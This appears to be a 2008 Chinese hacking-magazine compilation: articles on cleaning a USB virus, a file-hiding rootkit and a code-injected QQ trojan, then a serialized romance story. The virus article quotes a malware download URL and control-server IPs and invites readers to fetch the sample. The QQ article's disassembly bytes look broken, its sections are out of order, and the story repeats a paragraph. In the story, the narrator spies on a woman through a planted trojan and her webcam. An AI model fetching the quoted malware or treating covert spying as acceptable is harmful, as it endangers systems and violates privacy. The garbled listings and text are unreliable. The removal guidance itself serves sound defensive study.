在网上下载了无数个进程管理工具后，终于找到了一个功能强大并且没有被病毒屏蔽的工具——Wsyscheck，它具有进程管理、安全检查、注册表管理等功能。“Wsyscheck”运行后的界面如图2所示，在“进程管理”菜单中显示红色的为非微软进程，紫红色的表示虽然是微软进程，但其模块中有非微软的文件，对于菜鸟找可疑进程带来了很大的方便。我们很容易就能够找到红色的qjhuosw.exe和iwiwoui.exe这两个可疑进程。先选中这两个进程，然后在进程上点击鼠标右键，选择“结束选择的进程”，就可以将这两个病毒进程同时结束了。

病毒为了更好地隐藏自己将本身设置为了系统或隐藏属性，这样反而在Wsyscheck软件下更清楚地暴露了自己。在Wsyscheck的“文件管理”中，已经将系统和隐藏文件（文件夹）标记为了红色，所以很容易找出病毒文件，如图3。为了更方便找出病毒文件，我们可以选下方的“仅显示隐藏文件”，这样就可以将其他文件隐藏，更方便找出系统和隐藏文件了。需要注意的是显示为红色的有很多是系统本身的文件，菜鸟们可一定要看清楚，万一删除了关键的系统文件你的系统可能会崩溃的。

打开Wsyscheck的“安全检查”菜单中的“端口状态”，可以看到我的电脑通过qjhuosw.exe进程已经和IP地址为61.191.55.52的服务器建立了连接，如图4。经过查询，此服务器为虚拟主机，上边有23个站点。另一个IP为222.172.81.30，与机器狗病毒常用的连接IP是一样的，可见此病毒作者很可能就是机器狗病毒的制作者。在“安全检查”菜单的“活动文件”中可以看到启动时加载的各个程序，在“常规检查”的右边可以看到映像劫持的注册表，点右键选择“允许这个程序运行”就可以将被劫持的注册表删除，其它各项的功能就请各位小菜自己去研究吧！

由于文件监视工具“Total Uninstall”的局限性，可能有些文件并没有被监视到，建议小菜们根据文件创建时间去查找其它病毒文件，推荐一个功能强大的用于查找文件的工具“File Seeker”，点击右上角的“选项设置”，在弹出的窗口中选择“过滤器”，在搜索文件中设定好时间就可以查找了，查找的速度既快又准确。病毒为了隐藏自己，运行后对病毒文件的时间进行了修改，因此可以根据病毒文件的修改时间查找出病毒文件，在我电脑中qjhuosw.exe和iwiwoui.exe这两个病毒文件创建后，修改时间为2000年12月20日，在“过滤器”中的设置如图5所示，可以搜索到当天创建并修改文件时间为2000年12月20日的所有文件。使用同样的方法查找出你感染病毒当天所有创建的文件，再从中找出所有的病毒文件，然后删除它们就可以了。

如果你发现感染病毒后及时断开网络连接，然后将上面的病毒文件找到并删除，再使用360安全卫士或卡卡等清理一下注册表就基本完成病毒的清除工作了。但是倘若你感染病毒后没有断开网络连接的话，qjhuosw.exe进程几分钟后就会下载很多文件，在c:\Program Files\Common Files目录下能够发现一个名为dld.dat的文件，使用记事本打开该文件可以看到其内容只有一句话“http://qq.90356.com.cn/down/1221.exe”（这个服务器也和机器狗连接的IP地址是一样的）。下载dld.dat文件后，大多数情况下病毒就不再继续下载其它的病毒文件了，此时我们的系统虽然有qihuoos.exe和iwiwoui.exe这两个病毒进程运行，但是系统的运行速度几乎和正常一样，不像有些病毒运行后严重占用系统资源，使启动和运行速度明显变慢从而暴露自己，这就是此病毒的高明之处。但是这只是表面现象，事实上隐藏着更大的阴谋，一旦下载的1221.exe程序在某些条件下运行（病毒制造者有可能通过网络随时控制启动此程序），马上产生一个名为syswfgwd2.dll的系统属性的文件，然后将这个文件插入到浏览器或其它系统进程中，开始从网上疯狂下载大量的病毒文件，访问恶意网页、盗窃游戏号、QQ密码，最后耗尽资源使你的系统瘫痪崩溃。我猜想病毒作者更大的阴谋就是随时启动1221.exe程序来下载病毒，然后利用很多中毒的电脑访问某个网站以增加网站访问量或攻击某网站使其瘫痪，感觉好像和网络僵尸差不多，有兴趣的朋友可以根据上面的地址下载1221.exe后进行测试，以证明我的猜想是否正确。另外由于病毒作者随时可以免杀1221.exe和更改1221.exe程序然后再下载新病毒，至本文完成我测试时发现病毒又更新了，刚刚更新病毒库的卡巴居然不认识下载的病毒，直到两天后卡巴才认识了此病毒。

### 三、如何防止病毒入侵

这次遇到的病毒绝不是一般的病毒，因为常用的一些防病毒方法好像都不起作用，甚至连我们防御病毒的最后招Ntfs权限也可以突破。为了安全起见，我电脑中所有的分区格式都是Ntfs，并且在每个分区都建立了autorun.inf，然后又相应地设置了所有用户对于autorun.inf都没有任何操作权限，但这个病毒居然很容易地删除了我设置权限后的autorun.inf文件夹，然后又建立了自己的autorun.inf文件，至于其它网上的各种U盘免疫软件就更不起作用了。更为严重的是病毒对U盘进行实时监控，在中毒后的系统中，不论是在Windows下格式化U盘，还是在命令提示符下使用format命令格式化U盘后，病毒都会马上重新将自己写到U盘中，使我们无法彻底地消除病毒。

对于防御此类的恶性病毒，使用杀毒软件当然是菜鸟们的首选，因此除了正确使用杀毒软件外，还应该利用系统补丁、组策略、注册表权限等方法将病毒阻止在你的电脑外。

- 1．尽可能使用低权限用户来登录系统

Windows的用户权限是很安全的，只要你的系统没有漏洞，使用这种方法，病毒就不可能得到管理员权限，也就不能运行，此方法有时甚至比防毒软件效果都要好。


图6

- 2．利用组策略和注册表权限来阻止病毒运行

虽然U盘免疫程序autorun.inf文件夹设置权限后也可被病毒突破，但是组策略和注册表权限还没有被病毒突破。

在“开始”-“运行”栏输入gpedit.msc来打开组策略，选择“计算机配置”-“Windows设置”-“安全设置”-“软件限制策略”-“其它规则”，点击鼠标右键，选择“新路径规则”，在“路径”栏中输入不想运行的程序路径，在“安全级别”中设置为“不允许的”，这样就可以禁止“路径”中的程序运行了，如图6。可以根据需要添加病毒可能运行的目录以禁止目录内的所有程序来运行，从而达到从源头上禁止病毒的目的。如果你的系统盘为NTFS格式，设置组策略后再利用NTFS权限禁止C:\WINDOWS\system32\GroupPolicy\Machine\Registry.pol文件被任何用户修改、写入和删除，就可以保护你的组策略不被修改。在“运行”栏输入regedit来打开注册表编辑器，利用注册表权限设置，将HKLMSOFTWARE\Policies\Microsoft\Windows\Safer（保护设定好的软件限制策略）、HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SafeBoot（保护安全模式不被破坏）等一些关键键值设为所有用户允许读取，但拒绝写入、修改和删除，还可以使用同样的方法设置上面提到的映像劫持等其它注册表权限。

- 3．删除病毒可能调用的系统文件

删除系统中的命令提示符、注册表编辑器和cacls.exe等文件，因为很多病毒运行时都会后台调用命令提示符，此病毒就是利用命令提示符删除了很多文件并且利用cacls.exe获得权限。没有了命令提示符有很多病毒都不可能运行，并且没有命令提示符也就不能利用del命令删除文件，这样就可以保留很多病毒文件以便于我们了解病毒和彻底消除病毒。如果我们经常使用命令提示符和注册表编辑器的话，删除后可能会给我们的使用带来很多不便，可以将这两个文件改名或存放到Windows或System32以外的其它目录，病毒就不能调用了。

- 4．监控注册表和文件安全

安装注册表监视软件和其它的安全工具，在安装杀毒软件的同时还可以安装卡卡、360等软件，以弥补杀毒软件病毒库更新不及时的不足。另外及时更新你的系统上打补丁也是非常重要的，更不要忘了第三方软件的安全漏洞。

病毒发展的速度越来越快，因此小菜们一定要不断地学习新知识，只要我们多读X档案，正确使用好安全工具，就一定能将病毒阻挡于电脑的大门之外。本文所碰到的病毒因为比较强大，有些地方可能了解得不太全面，文中如有不对之处还希望读者们谅解，本文主要是想给菜鸟们提供一个消灭病毒和防御病毒的思想，如有问题大家可以到X论坛上和我一起探讨。（本文所涉及到的TotalUninstall、Wayscheck和File Seeker已收录到光盘中）

## 三招两式清除 Rootkit

Zorro

话说近日我在使用冰刃的时候突然发现找不到它的主程序 Icesword.exe 了，这立刻引起了我的警觉。直觉告诉我，这很有可能是病毒在作怪，可能是病毒害怕功能强大的安全工具冰刃，所以先下手为强了。我从别处拷贝了 Icesword.exe 文件，复制的时候却出现了文件已存在的错误提示框，而且所有隐藏的文件都已经显示出来了。这变得有意思了，我猜测可能是中了内核级的 rootkit 了。下面就让我们一起来干掉它吧！

那么，到底什么是 rootkit 呢？

rootkit 是能够持久或可靠地、无法检测地存在于计算机上的一组程序和代码。rootkit 所采用的大部分技术和技巧都用于在计算机上隐藏代码和数据。例如，许多 rootkit 都可以隐藏文件和目录，在 Windows 操作系统中大都以驱动程序的形式运行，通过修改系统内核来达到潜行的目的。rootkit 与木马服务端程序有些类似，但远比木马的隐蔽性要高。

病毒既然隐藏了 Icesword.exe，我们可以试着将别处拷贝的冰刃改名为 123.exe，或者随便起一个名字，这样就可以顺利地打开冰刃了。先来看看冰刃目录下的文件，如图 1，除了新改名的 123.exe，还有一个原来的文件 Icesword.exe。它被 rootkit 隐藏了，骗过了操作系统，甚至是杀毒软件也无能为力。但是它却骗不过冰刃的眼睛，因为冰刃也是使用内核技术编写的，只是同样的技术被用于正邪两派而已。现在我们基本断定是 rootkit 所为，那么要如何找到元凶并将其清除呢？


图 1

大部分的 rootkit 都是基于 hook ZwQueryDirectoryFile 来隐藏文件，ZwQueryDirectoryFile 是内核函数，通过挂钩 SSDT 表来改写函数地址指向新的函数地址，新的函数负责修改数据以骗过调用此函数的程序。SSDT 的全称是 System Services Descriptor Table，也就是系统服务描述符表。这个表就是一个把 ring3 的 Win32 API 和 ring0 的内核 API 联系起来的角色。主流杀毒软件的主动防御功能也都是通过这种技术实现的。知道了基本的原理，我们就请出一款 rootkit 的检测工具——Rootkit UnHooker，如图 2。


图 2

点击 ssdt 来自动检测被挂钩的函数，由于我没有使用杀毒软件的习惯，所以挂钩比较少，没有干扰地就找到了这个 rootkit，位于 C:\Windows\system32\drivers\HideFile.sys 的模块。果然是 hook 了 ZwQueryDirectoryFile 这个函数，选中它，点击下方的 “Unhook selected”，毫不留情地将其卸掉。然后将 C:\Windows\system32\drivers\HideFile.sys 文件删除，最后还剩下启动项，打开 “开始” － “运行” 栏，输入 regedit，调出注册表编辑器，按 Ctrl+F 进行查找，输入 C:\Windows\system32\drivers\HideFile.sys，点击查找。结果在键值 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\HideFilez 下找到了其启动项，如图 3，将其直接删除即可。


图 3

至此，这个 rootkit 也就清除完毕了，到冰刃目录去看看，Icesword.exe 也回来了。

（文章中涉及到的 Rootkit UnHooker 已经收录到光盘中）

## 与新型 QQ 木马的较量

冯龙春

最近，我的电脑上发生了一系列的灵异事件，登录 QQ 突然要输入验证码，输入完验证码登录上 QQ，朋友却发信息过来问我几时跑深圳去了，我很是诧异，根本就没有去呀，原来是我的共享地理位置变成了深圳。一种不祥的预感笼罩在我的心头，有人使用我的 QQ 在深圳登录了，但是我没有借 QQ 的习惯，也没有使用代理，看来是中了木马了！

我怀疑中的是 DLL 型的木马，但是使用以前备份的 DLL 进行比较没有发现什么异常，再使用360安全卫士查看系统进程，也没有发现有什么可疑的，系统进程都还是原来的那些系统进程，没有被捆绑和插入代码（图1）。我又使用金山和卡巴扫描了一下整个系统，也没有发现问题，我无奈地陷入了沉思之中。


继续上网，使用完电脑后准备关机，关闭所有的程序后再查看进程。咦？我不是已经关闭 QQ 了吗，怎么还有（图2）？


来看一下它正在向哪里连接，使用纯真 IP 查看，得到的是一个香港的 IP 地址，我到百度上搜索了一下，有人说是 QQ 反应慢的问题，但我观察了2分钟左右，这个 QQ 的进程也没有消失。最后我只好使用任务管理器终止了它，关机睡觉。想想腾讯不就是在深圳的吗？深圳不是和香港离得很近吗？可能就是这个原因吧。

第二天登录 QQ 失败，提示说有错误，这个情况可是以前没有过的。我开始怀疑是不是新型的插入代码型 QQ 木马。以前是线程插入，现在它是代码直接插入，真是技术越来越厉害啊！游戏也变得越来越有趣了。

由于是进程，没办法证明它是不是原来的那个 QQ，使用360安全卫士查看这个 QQ，在“安全级别”栏显示的都是未知（图3）。由于360安全卫士数据库跟不上软件更新以及QQ版本过多，所以它对于QQ都是报告未知，连我的金山毒霸也都是报未知。


难道QQ被捆绑了吗？使用木马辅助查看器fint2005.exe查看QQ，发现有捆绑数据的存在，我又找了一个正常的QQ进行检测，发现也有捆绑数据的存在（图4），读取EXE文件大小和计算EXE实际大小都是一样的，这证明附加数据是正常的。


接下来该怎么办呢，既然不是捆绑数据那么就是插入代码了，难道要我反汇编才行吗？还好无心插柳，以前我在学习逆向工程时研究过QQ，由于怕破坏QQ就使用WINRAR打包了一个QQ作为备份。把那个备份的QQ拿出来作对比就可以看出问题了，还是检测捆绑数据，仍然是正常，继续拿出MD5Check检测对比MD5数值，终于发现了可疑的那个QQ的MD5值（图5）和原来那个正常的QQ的MD5值（图6）不一致！哈哈，终于发现了，我的QQ被插入代码的可能性非常大。


使用PEiD比较程序入口点都是一样的（图7），感觉木马的作者不简单，因为初学者都是在入口点处作手脚，先让程序执行木马再执行QQ，这样很容易暴露的。再看看节，节还是一样（图8），没有加区段，真是厉害，游戏越来越好玩了。


图7


图8

0014E156，而下面正常的这个是0014E1C6，看到不同之处了吧！

```
Cave Info
Section    RVA           Offset
.text      0014E156      0014E156      00000EAA
.rdata     001B7A11      001B7A11      000005EF
.data      001C80E3      001C80E3      00000F1D
.rsrc      001D584E      001D584E      000007B2

确定
```

图9

我们使用OC进行内存地址转换那个可疑的QQ（图10），得到内存地址是0054E156。打开OD载入进行分析，使用同样的方法分析正常的QQ，复制粘贴0054E156处附近的汇编代码（图11），左边那个就是可疑的QQ，看到跳转的地址问题了吧。因能力有限我也只能分析到这里了。至于清除的方法很简单，将那个可疑的QQ替换为正常的QQ就可以了。

（文章中涉及到的工具360安全卫士、木马辅助查看器fint2005.exe、MD5Check、PEiD 0.94、OC偏移量转换器、OD等，已经收录于光盘中）


图10

既然是要求插入代码，那么学过逆向工程的人都懂得在不影响程序正常运行的情况下只能搜索全0处来写代码。我们再来看全0处（图9），注意.text节，看到没有？上面那个是有问题的QQ，它的text节的大小是00000EAA，下面那个是正常的QQ，它的大小是0000E3A。上面那个RVA是

```
0054E108   . E9 F371F4FF   JMP <JMP.&USER32.-CxxFrameHandler>
0054E10D   CC            INT3
0054E10E   CC            INT3
0054E10F   CC            INT3
0054E110   . 8D4C EC 04    LEA ECX,DWORD PTR SS:[EBP-14]
0054E114   . 89 7D 08      MOV DWORD PTR SS:[EBP+8],EDI
0054E117   . C6 45 F0 00   MOV BYTE PTR SS:[EBP-10],0
0054E11B   . 83E1 01      AND ECX,1
0054E11E   . 85C9         TEST ECX,ECX
0054E120   . 0F84 89000000 JE QQ.0054E1AF
0054E126   . 8B4D 08      MOV ECX,DWORD PTR SS:[EBP+8]
0054E129   . E7 70B3F0FF   JMP QQ.00526408
0054E12E   C3            RETN
0054E12F   . 8D40 EC      LEA EAX,DWORD PTR SS:[EBP-14]
0054E132   . 89 77 4F FF   JMP <JMP.&USER32.-CxxFrameHandler>
0054E137   CC            INT3
0054E138   CC            INT3
0054E139   CC            INT3
0054E13A   CC            INT3
0054E13B   . 8D4C EC 04    LEA ECX,DWORD PTR SS:[EBP-14]
0054E13F   . E9 5356E8FF   JMP QQ.003D3797
0054E144   . 8D4D 08      MOV EAX,DWORD PTR SS:[EBP+8]
0054E147   . 827F14FF     JMP <JMP.&USER32.-CxxFrameHandler>
0054E14B   CC            INT3
0054E14C   CC            INT3
0054E14D   CC            INT3
0054E14E   CC            INT3
0054E14F   CC            INT3
0054E150   CC            INT3
0054E151   CC            INT3
0054E152   CC            INT3
0054E153   CC            INT3
0054E154   CC            INT3
0054E155   CC            INT3
0054E156   CC            INT3
```

```
0054E178   . E9 8371F4FF   JMP <JMP.&USER32.-CxxFrameHandler>
0054E17D   CC            INT3
0054E17E   CC            INT3
0054E17F   CC            INT3
0054E180   . 8D4C EC 04    LEA ECX,DWORD PTR SS:[EBP-14]
0054E184   . E9 9083E8FF   JMP QQ.00526519
0054E189   . 8945 F0      MOV DWORD PTR SS:[EBP-10]
0054E18C   . 83E1 01      AND ECX,1
0054E18F   . 85C9         TEST ECX,ECX
0054E191   . 0F84 89000000 JE QQ.0054E1E0
0054E197   . 8B4D 08      MOV ECX,DWORD PTR SS:[EBP+8]
0054E19A   . E9 7093F0FF   JMP QQ.00526519
0054E19F   C3            RETN
0054E1A0   . 8D40 EC      LEA EAX,DWORD PTR SS:[EBP-14]
0054E1A3   . 8945 7F FF   JMP <JMP.&USER32.-CxxFrameHandler>
0054E1A8   CC            INT3
0054E1A9   CC            INT3
0054E1AA   CC            INT3
0054E1AB   CC            INT3
0054E1AC   . 8D4C EC 04    LEA ECX,DWORD PTR SS:[EBP-14]
0054E1B0   . E9 53E5E8FF   JMP QQ.003DC797
0054E1B5   . 8D40 08      MOV EAX,DWORD PTR SS:[EBP+8]
0054E1B8   . E9 4271F4FF   JMP <JMP.&USER32.-CxxFrameHandler>
0054E1BD   CC            INT3
0054E1BE   CC            INT3
0054E1BF   CC            INT3
0054E1C0   CC            INT3
0054E1C1   CC            INT3
0054E1C2   CC            INT3
0054E1C3   CC            INT3
0054E1C4   CC            INT3
0054E1C5   CC            INT3
0054E1C6   CC            INT3
```

图11


# 侠隐仙踪

## 2008 合订本上卷


当雨薇从睡梦中醒来的时候，依然不忘调皮的说道：“我要吃话梅！你偷窥我，所以必须给我买！”

晕，满屋子的护士和医生呢，她居然这么说！我瞪着眼睛小声的威胁道：“死丫头别乱说，小心我把你嘴巴缝起来。”

“缝啊，要不是你偷窥我，我能激动的晕倒吗？”这小丫头越说越来劲了。这下医生和护士发扬了埋汰死人不偿命的传统美德，当场给我来了一堂道德观念的教育。趁着他们喝水补充体力的功夫，我溜出去买话梅了。不要说萧然扣我的奖金，他再不回来的话估计我的工资都没得拿了，马上就要去喝西北风了。这买话梅的钱就够我买烟抽的了。

拎着话梅回来的时候这丫头居然不在病房里，我大脑嗡的一声。开始想象着雨薇到底出了什么事情。被绑架了？突然身亡了？想想前者的几率很小，谁能绑架她啊，那不纯属是自寻烦恼嘛！难道她死了？我心里突然一下子悬了起来，发疯似的冲了出去。

一开门，就看到雨薇那张苍白的脸出现在我的面前，满脸都是眼泪的看着我说道：“他们不知道要给我检查什么，拿了一只很粗很粗的针，太可怕了，呜呜……”雨薇脆弱的倒在了我的怀里，突然心里疼的要哭了出来。

这时身后跟上来好几个护士，用震死人不偿命的高八度分贝嚷嚷道：“唉，我说，你女朋友怎么回事啊？快点检查，我们还得等着你们啊！”

我满脸堆笑的说道：“好好，马上就来。”说完就把雨薇从怀里扶了起来。此刻她略显疲惫的看着我，这样的感觉就像是把心揉碎再一点一点拼凑起来一样。我温柔的安慰着：“乖，听话，去检查下吧，这样也安心一些，我陪着你好好吗？”

雨薇听话的点点头，这样子就像几年前一样的乖巧，让我的心也跟着疼了起来。来到检查室我终于知道了什么是残忍，一个一寸长的针管就那么硬生生的插进雨薇腰后面的椎骨上面，那一刻我差点晕过去了。雨薇紧紧拉着我的手，脸色苍白的哭喊着说：“好疼啊，为什么贫血就要受着这种罪。”她的哭喊声让我几乎心碎，接着她眼泪婆娑的看着我：“我好疼，回病房的时候你得背着我！”我拼命的点着头，现在不要背着，她就算是她说杀了我，我也不会摇头。

检查之后，我和雨薇都松了一口气。虽然疼的是她，但是心痛的是我。她从床上站了起来，阳光洒满了她的全身，虽然病服有些宽大，但是依然无法掩饰她曼妙的身材和清秀美好的美貌。她眼睛里还含着泪却对我霸道的说道：“你背我！”

我听话的就像是一只遇见猫的老鼠一样，乖乖的弯下腰，把雨薇放在了背上。听着雨薇噗嗤的好笑声，仿佛这一切又回到了那个让人轻狂，洒脱不羁的大学时代。我和雨薇又是那天真幸福的情侣。她蒙上我的双眼，告诉我左转右转的指挥着我向前行走。

“咣当！”我的脑袋撞到了墙上，捂在我眼睛上的那双手，也不知何时放开了，雨薇也从我的身上跳了下来。我晕！我早就忘记了，雨薇已经不再是那个乖巧的女孩子了。现在她满肚子的坏水，我摸着脑袋的大包，转过身刚想教训这丫头一顿。可是没想到她捂着脑袋，双肩颤抖的蹲在墙角那里哭泣。我连忙弯下腰，内疚的说道：“对不起，对不起，都是我走路不小心，才让你掉下来。”

她抬起头，满眼的泪光：“为什么我们今天所做的是我千百回在梦里重复的。从我在病床上醒来的时候，一切都是陌生的。包括萧然，他说他是我男友，可是我对这一点也不熟悉，但是如果他不是我男友，为什么对我那么好。可是看见你的那一刻，我突然感觉莫名的熟悉，你背上的烟草味是那么的熟悉，你的笑是那么的刻骨铭心，和梦里一模一样。这到底是怎么回事啊！”雨薇坐在地上，像个孩子一样的哭泣着。

我心疼的把她抱在怀里，却什么也说不出来。她在我怀里呢喃道：“我很害怕错过最爱的人，最值得拥有的幸福。”我几乎要哭出来，紧紧抱着雨薇。正想要告诉她一切的时候，突然一个熟悉的声音把我拉回到理智之中。

“喂，臭小子，不要抱着我的女朋友吃豆腐。靠，要不要奖金了，老子才刚走几天啊！”萧然咆哮的出现在我和雨薇的面前。我不得不把雨薇放开，佯装笑道：“我，不知道该如何解释，不过萧然似乎也不需要我解释。扶着雨薇向病房走去。把我一个人留在了狭长的走廊里。留下的是刚刚拥抱过的心酸和那双渴望真相的双眼，或者还留下了我满心的惆怅。

半个小时后，萧然坐在我的旁边和我一起陷入了沉默。香烟一根又一根的燃尽，堆积的是伤感或者不安。我们也许都害怕，害怕失去雨薇。良久，才响起了萧然沙哑沉闷的声音：“雨薇肺部有一个肿瘤，但最致命的是她有败血症，必须要换骨髓。”

我毫无准备的接受了这样的噩耗，傻傻的看着萧然，心里一遍遍的疼痛。我不知道该怎样去疼雨薇，抬起头坚定的对萧然说道：“我去和她讲清真相，我想给她幸福。”

萧然没有拉住我，只是呢喃的对我说：“必须手术她才可以活下去，手术要六十万呢！”我僵硬在了原地，六十万！把我卖了，再卖了我父母老家的房子也不值六十万啊！突然间我觉得身体被抽空了一样。六十万只有萧然才有，我扭过头，绝望的看着萧然说道：“你需要我做什么嘛？”

萧然抬起他深邃的目光，那目光中闪烁着我不懂的光芒。他一字一顿的对我：“我要你离开她！永远！”

我转过身离开了医院，回到我们三个人的家，收拾着自己的行李。我默默的规劝着自己不要悲伤，只要雨薇幸福就好了，心里却向刀割一样的疼痛。但是倘若生命都消失了，哪里还会有幸福和天长地久而言。我宁愿站在远处看着她健康快乐的笑着，也不愿天人永隔的悲伤。

离开了萧然和雨薇，也离开了萧然的公司。周围的喧嚣变的安静了下来。我似乎是一个受伤的小女人，开始对生活，对这个世界绝望了起来。接下来的一个月，我换了四份工作，原来所有的思想都不在工作上，最后只好在家里接下了做网站的工作。

偶尔那个家伙也会露个面问我好不好，不知道为什么，他似乎能意识到我的情绪。没有曾经的那么张扬，有时候我明明知道他是在线的，却安静的不肯说出一句话，似乎在配合着我的忧伤我的沉闷。曾经那段时间也是没有雨薇，只是对她的想念是淡淡的可有可无，但是此时却是那般的强烈，整个夜晚我都无法安心工作亦是睡去，只是睁着眼睛看着天花板，看着电脑花蓝色的屏幕，一个人的孤独是一种毒药，毒发身亡的惨剧只是时间的问题。终于在一次醉酒之后，我开始咒骂，咒骂周围的一切。

良久，折腾了好久之后，我的心也开始泛滥。我打开电脑，登录了QQ，发现雨薇果然在线。我开始扫描雨薇的电脑，果然是个电脑白痴，几乎默认的端口全开放着，我连接了其中的一个，唤醒了早已安装在她电脑里的木马程序。

终于可以看到她的电脑界面了，疯狂的想念如决堤水般的蜂拥而至。我打开监视的摄像头，看着她坐在床边一边吃着话梅，一边掉着眼泪。我突然也很想哭出来，可是我能做什么，跑过去告诉她我爱她，想和她在一起，然后几年或者几个月后再眼睁睁的看着她死去吗？我从木马的控制端退了

“哐当！”我的脑袋撞到了墙上，捂在我眼睛上的那双手，也不知何时放开了，雨薇也从我的身上跳了下来。我晕！我早就忘记了，雨薇已经不再是那个乖巧的女孩子了。现在她满肚子的坏水，我摸着脑袋的大包，转过身刚想教训这丫头一顿。可是没想到她捂着脑袋，双肩颤抖的蹲在墙角那里哭泣。我连忙弯下腰，内疚的说道：“对不起，对不起，都是我走路不小心，才让你掉下来。”

出来，明明知道思念无用，却还要拼命的去思念。

“你喜欢她？”电脑里萧然不合时宜的向出这句话让我心痛的话。狗拿耗子，多管闲事。本来不想理这家伙，却偏偏那么急于倾诉的说道：“不喜欢，是爱极了！”

“那你为什么不告诉她，不和她在一起呢？难道你就这么看着幸福一点点的溜走？”萧然说的这些我都想过，但是幸福是需要代价的，要么是雨微短暂的生命，要么就是六十万，前者我不舍得，后者我却拿不出来。

失败的心情让我几乎无法停留在任何人的面前，我关掉电脑躺在床上开始睡觉，却偏偏每次梦里都会出现雨微的身影。我不知道当自己沉默的离开，是让自己爆发，还是死亡。只是希望雨微可以很幸福。我以为自己的消失对于大家来说是一种解脱，但我却看到大大小小的网站和论坛上都写满了那些让人心痛的语言。

“曾经我们一起走过三年的青春，虽然也曾经犯过错，可若干年后，我们依然双手紧握过，无论你在哪里，请记住我的话，我不想错过你和那份值得珍惜的爱！”

我看着那些论坛那些网站上留下的雨微炙热的语言，心里的疼痛加剧。可是我用什么来爱她呢？我一遍遍的思考，一遍遍的给自己寻找一份答案，但是却没有找到。

电脑上萧然又不合时宜的出来了：“这个女人是不是那天吃话梅的那个人啊，你怎么能这么对待自己所爱的女人呢？”

“论技术我可能不如你，但是感情的事请你不要教我怎么做。”我有些愤怒，大家都看到雨微的深情，却没有看到我的痛苦。此刻的我像是被人冤枉的孩子一样委屈。

“我看得到你每天都把自己沉浸在入侵和vc、vb里，但是爱和技术是一样，需要用心才会快乐，难道你想一辈子都这样？她不快乐，你也不幸福？”不知道从什么时候起，她这么关心起我的生活来。但我却无心感激。

我依然孤独着，没有登录过木马，不逛街，不开手机，也不去论坛网站看帖子。但是萧然还是在那慵懒的下午敲开了我的房门。我愣愣的看着站在门外消瘦的萧然，望了望空荡荡的身后，心里一阵安慰和失落的情感在心里纠缠。

萧然淡淡的一笑：“让我进去坐坐吧！”我淡淡的笑了笑，把萧然让进了我的猪窝。萧然刚刚坐下，就闭上眼睛倒在了床上。我从未见过他这么疲惫，这么脆弱。我小心翼翼的问道：“萧然，你怎么了？”

萧然惨淡的一笑，说道：“你能想像到吗？我破产了，几乎一夜之间。”

我的心猛然间抽搐了起来，这意味着什么，意味着我的好友一无所有了，也意味着雨微会陷入绝望。我紧张的坐在他的旁边问道：“怎么会这样？那么六十万能凑出来吗？”

萧然苦笑道：“人算不如天算，不要说六十万，现在我连六万都没有了。”

我颓然的坐在地上，所有的希望都在瞬间破灭。萧然拍了拍我的肩头说道：“别这样，我会有办法的。我入侵几家网站，钱自会是有的。只是我的技术确实有些局限，还有她的病千万不要让她知道，不然我怕她会消失，死在哪里我们都找不到。”

我苦笑着说道：“你以为真的是那么容易解决嘛？看似简单，数额太巨大一定会引起轰动的。我保证不出几天你就会被揪出来。”

萧然淡淡的笑着说道：“只要雨微过的好就行，我已经无所谓了。到那时你要好好照顾她，别再让她受伤了！”

泪光在我的眼睛里萦绕，在萧然的身上我看到了自己的渺小。我以为自己的离开就会成全雨微的幸福，其实这只是逃避自己内疚的一种方式。我握住萧然的肩头说道：“不，别这样，你知道我没那个能力，我怕照顾不好雨微。我会有办法的，绝对不犯法，谁都不会受到伤害。”萧然的目光中似乎又燃起了一丝希望，郑重的点点头又不安的说道：“真的吗？”我勉强笑笑，却心乱如麻。

萧然离开后，我开始幻想着怎么弄到钱。可是每一次都被漫长的时间而否定。终于我明白了没有钱是多么可悲的事情。这一夜我失眠了，想了很久的办法，例如规劝父母把老家的房子卖了，比如去网络上求助……但这都是杯水车薪的打算而已。最后我决定的方法是卖掉身上所有能卖掉的器官，我没有幻想过自己有多么伟大，这也是我证明自己能做的最后的办法了。

我打开电脑开始搜索网络，希望知道卖器官的最高价格是多少，是否能够雨微的手术费用。顺便又在一些医学网站上登出了自己准备卖器官的一些讯息，希望有人能出一个好价钱。

“你在干什么？”萧然发出一连串的叹号后问道，我不说话只是看着屏幕，对于萧然的关心，我失声一笑，连苦涩的味道都笑了起来。

“喂，我说话你倒底看见没有，给我个回应好不好。”萧然似乎有些着急，但是我依然无动于衷的盯着屏幕发呆。

“如果你有困难我可以帮你，但是你不许这样作践自己，明白吗？”多么美好的语言，只是再华丽的东西也终究要面对事实。如果他能借我六十万我将十分感激，那么他有这么多钱嘛？也许没有，就算有，他会借给一个陌生人嘛？当然不能，这是我能预想到的答案。

我的话换来了萧然无趣的沉默，我也开始着手和那些有兴趣买器官的人联系。原来生命是这么的可爱，六十万对于一个垂死的人来说又是那么的不屑。QQ上那人几乎用哀求的口气与我说话，一刹那我想到了也快要垂死的雨微。

这个月的六号，我如约来到市医院，检查血型是否匹配，手术后会不会有排斥反应。看到那个年迈的老人颤巍巍的走到我的面前，笑容中带着一丝凄惨的说道：“年轻人，谢谢你啊！”我笑不出来，这本来就是一场交易，也许根本不需要言谢。老人又对我淡淡的说道：“孩子，你是我老家的房子马上就要卖了，手术之后给你钱行吗？”

我看了看房间里那个因为尿毒症脸色苍白的中年男人，心里一阵揪痛，可怜天下父母亲啊！想到生我养我的父母，突然愧疚的感情像针刺一样刺到我心上。但是我依然毫无感情的说道：“不行，我用这钱也是为了救人，一分一秒也耽误不得！”

“你在这里啊？”突然一个面容清秀，一脸天真无邪的女孩子出现在我面前。我莫名的看着这个女孩子，大脑里快速的搜索着，却还是不知道在哪里见过她。

老人很害怕这其中有什么变故，于是连忙说道：“好好，我答应。”

女孩却拦在了我的面前：“不行，对不起，我要和我哥哥谈点事情。”说完拉着一脸诧异的我，走出了医院的住院区，那样子好像是在躲避被人追杀一样。

不知道一个小丫头怎么会有那么大的力气，一直走到楼下，我掰开她比钳子还要紧的双手，怒吼道：“你是谁啊？你这是干什么啊？你是不是脑袋有毛病啊，有病去看医生，别耽误我的事。”我真恨不得一口把这个家伙咬死。

女孩抬头瞪了我一眼，说道：“我是老在你电脑里的那个人！”

眼前的这个小女孩，稚气的脸颊，镶嵌着一双无邪的双眼，皮肤弹指可破，毫无半点的沧桑和世俗的腐蚀。蹙起眼睛，皱着眉头满脸的倔强，撅起的嘴也带着孩童的可爱。她现在却正式告诉我，她是人侵我电脑的人，而且是一而再再而三的入侵了我的电脑。天啊，让我去死吧。

